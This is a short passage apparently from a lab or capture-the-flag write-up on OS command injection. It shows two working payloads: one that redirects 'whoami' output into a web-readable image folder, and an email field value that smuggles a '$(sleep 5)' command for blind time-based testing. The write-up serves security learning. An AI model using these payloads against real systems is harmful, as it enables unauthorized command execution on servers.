

Putting whatever command and then redirecting the output of `whoami` to the file in the accessible route:

Then we visit the route:

I like more this command injection, without using pipelines:
`& whoami > /var/www/images/output.txt #`

Also, we can make the execution of our commands inside `$`:
`email=invalid%40example.com%3b+$(sleep+5)+%23`
